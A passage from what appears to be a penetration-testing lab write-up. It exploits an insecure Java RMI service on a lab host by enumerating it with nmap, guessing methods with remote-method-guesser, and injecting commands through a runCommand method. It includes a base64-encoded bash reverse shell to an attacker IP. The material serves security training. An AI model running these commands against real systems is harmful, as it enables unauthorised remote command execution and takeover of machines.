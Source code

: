 Which returns root.
# Insecure RMI
We go once again for a nmap scan and we find port 1099 (Java RMI) open. Java RMI allows an object running in a JVM to invoke methods on an object running in another JVM. When developers want to make their Java object available withing the network, they usually bind them to a RMI registry. This registry stores all information required for the connection and makes it available in a human readable name, much like a DNS service.
We start by dumping all info from the service:
```bash
nmap --script rmi-dumpregistry -p 1099 demo.ine.local
```
We find that the CustomRMIServer implements the java.rmi.Remote interface, we need to guess the methods that can be done with: https://github.com/qtc-de/remote-method-guesser.
We thus download the compiled version and run:
```bash
java -jar target/rmg-4.2.2-jar-with-dependencies.jar guess demo.ine.local 1099
```
With the "guess" parameter to guess for methods.
The guess worked and we are presented with the runCommand method which accepts a string. Note that not always we can retrieve the output if it's a command injection, so we go for a ping. We setup tcpdump on the interface listening for icmp, and we run the following:
```bash
java -jar rmg-4.2.2-jar-with-dependencies.jar call demo.ine.local 1099 --bound-name CustomRMIServer 'new String[] {"ping", "-c", "5", "192.240.206.2"}' --signature 'String runCommand(String[] args)'
```
We get pings on our machine so we are good to go.
In order to retrieve the output we can use the GenericPrint plugin as follows:
```bash
java -jar rmg-4.2.2-jar-with-dependencies.jar call demo.ine.local 1099 --bound-name CustomRMIServer 'new String[] {"whoami"}' --signature 'String runCommand(String[] args)' --plugin ../plugins/GenericPrint.jar
```
Which returns root!
Time to get a shell, we encode a bash shell as:
```bash
echo '/bin/bash -c "bash -i >& /dev/tcp/192.240.206.2/443 0>&1"' | base64 -w0;echo
```
Then we setup a listener and craft the exploit with:
```bash
java -jar rmg-4.2.2-jar-with-dependencies.jar call demo.ine.local 1099 --bound-name CustomRMIServer 'new String[] {"/bin/bash", "-c", "echo L2Jpbi9iYXNoIC1jICJiYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4yNDAuMjA2LjIvNDQzIDA+JjEiCg== | base64 -d | bash"}' --signature 'String runCommand(String[] args)'
```
We simply fire it to get back a shell.